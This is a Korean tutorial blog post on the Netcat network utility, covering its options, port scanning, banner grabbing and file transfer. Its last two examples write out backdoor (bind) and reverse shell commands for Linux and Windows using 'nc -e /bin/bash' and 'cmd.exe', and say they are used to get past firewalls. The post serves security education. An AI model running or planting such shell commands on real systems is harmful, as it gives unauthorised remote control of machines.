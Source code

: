 ```yaml
---
layout: post
title: "Netcat"
tags: [정보보안, 툴]
comments: true
---
```


Netcat 은 TCP 나 UDP 프로토콜을 사용하는 네트워크 연결에서 데이터를 읽고 쓰는 유틸리티 프로그램임

![image](https://github.com/what0302/what0302.github.io/assets/18510716/8435fd52-6470-4f27-b877-4444db4f6420)

##### 출처 링크: [KOROMOON][KOROMOONlink]
[KOROMOONlink]: https://koromoon.blogspot.com/2018/01/netcat.html "Go KOROMOON"

## (1) 설명

Netcat 은 TCP 나 UDP 프로토콜을 사용하는 네트워크 연결에서 데이터를 읽고 쓰는 유틸리티 프로그램임.<br>
일반적으로 UNIX 의 cat 명령어와 비슷한 사용법을 가지고 잇지만 cat 명령어를 통해 파일에 쓰거나 읽듯이 Netcat 툴은 네트워크에 읽거나 쓸 수 있음.<br>
이것은 스크립트와 병용하여 네트워크에 대한 디버깅, 테스트 툴로써 매우 편리하고 원하는 포트로 원하는 데이터를 주고 받을 수 있는 특징 때문에 악의적으로 사용할 수 있음.<br><br>
또한, 컴퓨터 포렌식에 있어서 라이브 시스템의 데이터를 손상없이 가져오기 위해서도 사용될 수 있음.<br>
원하는 거의 모든 종류의 접속 형태를 만들어 낼 수 있고 흥미로운 몇 가지 내장 기능을 가지고 있기 때문에 다기능의 네트워크 문제해결 및 조사 시에 유용하게 사용 가능함.<br><br>

윈도우 다운로드 : [http://eternallybored.org/misc/netcat/](http://eternallybored.org/misc/netcat/)<br>
리눅스 다운로드 : [https://sourceforge.net/projects/nc110/](https://sourceforge.net/projects/nc110/)<br><br>

참고로 SANS 에서 제공하는 Netcat Cheat Sheet 파일은 아래 링크에서 다운받으세요.<br>
https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf<br><br><br>

## (2) 사용법
![image](https://github.com/what0302/what0302.github.io/assets/18510716/a92595d5-7a73-43ae-b504-346714e82246)
<br>
<br>
※ 아래 옵션은 netcat-win32-1.12 버전을 기준으로 정리함.<br><br>

어딘가에 연결 시 : `nc [-options] hostname port[s] [ports] ...`<br>
인바운드 수신 대기 시 : `nc -l -p port [options] [hostname] [port]`<br><br>

옵션 :<br><br>
<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody><tr>
  <td style="border: 1pt solid windowtext; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt; width: 461.2pt;" valign="top" width="615">
  <p align="left" class="MsoNoSpacing"><i><span lang="EN-US"><span style="font-family: courier;">
        -d              콘솔에서 분리되어 백그라운드 모드로 실행<br>
        -e prog         커넥션(Connection)이 이루어졌을 때 후 프로그램을 실행함 (위험!)<br>
        -g gateway      source-routing hop point[s]를 8씩 증가<br>
        -G num          source-routing point를 4, 8, 12 .. 4씩 증가<br>
        -h              도움말<br>
        -i secs         스캔된 포트로 전송된 회선의 지연 간격<br>
        -l              인바운드 커넥션을 위해서 listen 모드로 실행<br>
        -L              소켓 종료 시 재전송 실행<br>
        -n              IP 주소 입력 (DNS 을 사용하지 않음)<br>
        -o file         주고받은 데이터를 헥스 덤프(Hex Dump)하여 파일로 저장함<br>
        -p port         로컬 포트를 지정함<br>
        -r              로컬 이나 원격 포트를 임의로 지정함<br>
        -s addr         로컬 출발지 주소를 지정함<br>
        -t              Telnet 과 같은 협상 과정을 거치도록 설정함<br>
        -c              LF 대신 CRLF 를 보냄<br>
        -u              UDP 모드<br>
        -v              자세한 설명 모드 (더 자세한 정보를 표시하기 위해 두 번 사용)<br>
        -w secs         마지막으로 읽고 난 후 종료할 시간을 정함<br>
        -z              zero-I/O 모드 (스캔 시 사용)<o:p></o:p></span></span></i></p>
  </td>
 </tr>
</tbody></table><br>

참고로 포트 범위는 개별 또는 범위(m-n)일 수 있음.<br><br><br>

## (3) 사용 예
1. 특정 포트에 대한 연결 수립<br><br>
원격 IP 의 특정 포트로 연결하여 Open 되어 있는 여부를 확인함.<br><br>
`nc [IP] [Port]`<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj26vMovg5synzLGTccviKy3Bh7Fwr9vyJpIEcvNV3O3P_0DR1nvyOh7SbB6BHb0eiqnaYrzV5_Vo75s2gjgF2CPFcuClNe8JDaIMEqh8GzYhAVdkQoOIJ2BwHIjcJMrLlP1UCYigKdAOE/s1600/%25ED%258A%25B9%25EC%25A0%2595+%25ED%258F%25AC%25ED%258A%25B8%25EC%2597%2590+%25EB%258C%2580%25ED%2595%259C+%25EC%2597%25B0%25EA%25B2%25B0+%25EC%2588%2598%25EB%25A6%25BD.png"></div><br><br>

2. 서비스 배너 수집<br><br>
다양한 서비스를 대상으로 그대로 사용할 수 있음.<br>
하지만 HTTP 서비스는 HTTP 헤더 양식을 전송해줘야 함.<br>
`echo -e "HEAD / HTTP/1.0\n\n" | nc [IP] 80`<br>
<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgoaWHzRs5Eysrtj7MwxJwG93oiVnlK0lhMfsw458wNV7xJYfmxaXrF4mYtIJa-S3t6HVqeSGTxlGrjFngRQHSYpugvkM1nkyIBDjfsZwvRPJxWPNmBe3h70eUUK9qlR8mfkzHGiNtpOzQ/s1600/%25EC%2584%259C%25EB%25B9%2584%25EC%258A%25A4+%25EB%25B0%25B0%25EB%2584%2588+%25EC%2588%2598%25EC%25A7%2591.png"></div><br><br>

3. 포트 스캐닝<br><br>
TCP 프로토콜을 사용하여 특정 포트나 포트 범위를 스캔함.<br>
`nc -n -v -z -w 1 [IP] [포트 범위]`<br>
<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh13c9lcWxw5TwLBJpjyNLUm_NZ3zAsQujCfqBInGQ77S6RUAJ5DL5lzdX37VcE_8vbXM0Ux9quTZPYrTjypVuipPBIiaHJcl7cBBkknPy6ikZF1FYbGhW6EZh2m5FDpTQ_PUZ_ut1jwxc/s1600/%25ED%258F%25AC%25ED%258A%25B8+%25EC%258A%25A4%25EC%25BA%2590%25EB%258B%259D.png"></div><br><br>

4. 파일 전송<br><br>
클라이언트(윈도우) -> 서버(Kali Linux)로 파일 전송<br><br>
클라이언트<br>
`nc -w3 [IP] [Port] < [파일명]`<br><br>
서버<br>
`nc -l -p [Port] > [파일명]`<br>
<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhLJghqkvJi7EEYkN5gOMcpHOrLAssBsvMkaFseVbjUZ26uWPYWigxTUkSpL_d-qDlSow1hVAbyeoPkAOwBYLI3MS_Orkt2YY6K1u9fsnUeuI1sjW0aTab7uavss0mjGbiAAaZgcuNqs9Y/s1600/%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B8%2528%25EC%259C%2588%25EB%258F%2584%25EC%259A%25B0%2529-%25EC%2584%259C%25EB%25B2%2584%2528Kali+Linux%2529%25EB%25A1%259C+%25ED%258C%258C%25EC%259D%25BC+%25EC%25A0%2584%25EC%2586%25A1_1.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhesAfNu5IJ2nouAur7moiNTHJ-NOV99AZq0ScVga1EFcziWg7qjVBuvRycwNYQPLW3NHvxT-McO7iDvJXYUtvqK5Xlni5ZMjG3pujhXPey6-JA_GrJOqfUq2rKIVCTI18j1eYIKashfuM/s1600/%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B8%2528%25EC%259C%2588%25EB%258F%2584%25EC%259A%25B0%2529-%25EC%2584%259C%25EB%25B2%2584%2528Kali+Linux%2529%25EB%25A1%259C+%25ED%258C%258C%25EC%259D%25BC+%25EC%25A0%2584%25EC%2586%25A1_2.png"></div><br><br>

5. 백도어 쉘 (Backdoor Shell)<br><br>
Netcat 툴을 이용한 백도어 쉘의 기본 매커니즘은 특정 포트(-p)에서 listen 모드(-l)로 실행하여 연결 수립 시 특정 쉘을 실행(-e)하도록 옵션을 지정하는 방식임.<br><br>

리눅스 환경(서버)에서 백도어 쉘<br>
`nc -l -p [로컬 포트] -e /bin/bash`<br><br>

윈도우 환경(서버)에서 백도어 쉘<br>
`nc -l -p [로컬 포트] -e cmd.exe`<br>
<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhBdx0Kzn5FlS4vy-O59_HtqxLVa1amIMhFdxbKwmRBLxk_HUM-LPMLg6asSVyahZohOVEMXvrNGzvjSY0osxM9mJOwuSfXV2Ck_u8AcP4XqCydi61KwSpbA8CAyPt8xx7_e_7x1OHXt0U/s1600/Backdoor+Shell+%25EC%2584%259C%25EB%25B2%2584.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhSZei4HxKQGGb3QYa8gsdrbxiTfBQp15VwdjTCm0jfB2U2xEm3E70xUFhmq4tmR4BclG12RoUtChqnRztb-o6iqerwGEVeFL99ZTZoB9R2Mvbs1z4xA2pDatgcHElAgdSsbyafrpimIRw/s1600/Backdoor+Shell+%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B81.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhJ9VfZoyrHFHhQ4ldYU6bQfgrH8yPhikT1dCuZSx_Oi9giWq-mohcOVc_WjqC46L_vlEJO_ikY1NLBYquwb9pR1E1zNDUAmJsumn9Q_8wa71aRwDqaYxLCpv3FfFCSAjVnDblt6_c-Dt8/s1600/Backdoor+Shell+%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B82.png"></div><br>
위 스샷에서 서버(Kali Linux) 측 쉘에 접속 후 명령어 뒤에 세미콜론 문자(;)를 덧붙여야 함.<br>
(사용하는 클라이언트 마다 다를 수 있음)<br><br>

6. 리버스 쉘 (Reverse Shell)<br><br>

**Netcat 툴을 이용한 백도어 쉘의 기본 매커니즘은 백도어 쉘과는 반대로 보통 서버 앞단에 방화벽을 우회하기 위해서 리버스 쉘을 이용함.**<br>
**방화벽에서 허용된 나가는 포트를 이용하여 클라이언트 측에서 쉘을 실행시킨 후 서버 측에서 접속함.**<br><br>

리눅스 환경(서버)에서 리버스 쉘<br>
`nc [자신의 IP 주소] [포트] -e /bin/bash`<br><br>

윈도우 환경(서버)에서 리버스 쉘<br>
`nc -l -p [로컬 포트] -e cmd.exe`<br>
`nc [자신의 IP 주소] [포트] -e cmd.exe`<br>
<br>

<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjQWHXV2Sba-_p1a2eB8zqbCVgQqAaJ-aakB2RXHV05B8I5LH3zkcIdkmRvxFy9QyqSSzzSo51nKxzc_Y1Yiv1OCaR6kd6H-8zVXYHyACv0Bwx7TSVirNYVyC6tbfCSndhpXyRI8ys7-3M/s1600/Reverse+Shell+%25EC%2584%259C%25EB%25B2%2584.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgILlZyiTOyqIOo5Gchyphenhyphen5sn1Ypk0XQImvPwJXuZrrCA_Kt0TiyL3tUHnGclcnSH5-Un9W5DhwrzuIr-H6k6lnpD-PmHOP80Y6bl4sny7yyx6yEUxVGKL5elIWNmSDI5UqHXT9RSVTLAjn8/s1600/Reverse+Shell+%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B8.png"></div><br>

